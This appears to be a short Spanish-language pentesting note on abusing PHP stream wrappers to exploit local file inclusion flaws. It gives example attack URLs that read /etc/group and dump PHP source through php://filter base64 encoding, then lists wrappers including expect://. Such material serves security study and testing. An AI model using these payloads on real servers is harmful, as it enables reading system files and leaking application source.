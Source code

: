 PHP incorpora una serie de envolturas para distintos protocolos tipo "URL" para trabajar junto con funciones del sistema. Estos wrappers son usados en servidores vulnerables a LFI pero tienen mejoras en su implementación.

Ejemplos:
--> Wrapper file: `http://localhost/example.php?file=file:///etc/group`
--> Codificación en base64 de todo el documento php: `http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php`
--> Decodificación en base64: `echo "<hash>" | base64 -d; echo`

PHP Wrappers:
* file:// — Accessing local filesystem
* http:// — Accessing HTTP(s) URLs  
* ftp:// — Accessing FTP(s) URLs  
* php:// — Accessing various I/O streams  
* zlib:// — Compression Streamsd
* data:// — Data (RFC 2397)  
* glob:// — Find pathnames matching pattern  
* phar:// — PHP Archive  
* ssh2:// — Secure Shell 2  
* rar:// — RAR  
* ogg:// — Audio streams  
* expect:// — Process Interaction Streams

